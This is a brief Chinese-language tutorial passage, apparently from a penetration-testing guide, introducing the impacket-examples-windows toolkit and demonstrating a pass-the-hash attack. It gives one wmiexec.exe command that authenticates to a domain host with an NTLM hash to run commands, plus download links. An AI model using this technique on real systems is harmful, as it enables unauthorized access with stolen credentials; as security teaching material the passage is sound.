


# 4.2.4.2 impacket-examples-windows

> 原文：[https://www.zhihuifly.com/t/topic/3430](https://www.zhihuifly.com/t/topic/3430)

#### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami" 
```





下载地址:

> impacket-examples-windows:

https://github.com/maaaaz/impacket-examples-windows/releases

> impacket:

https://github.com/SecureAuthCorp/impacket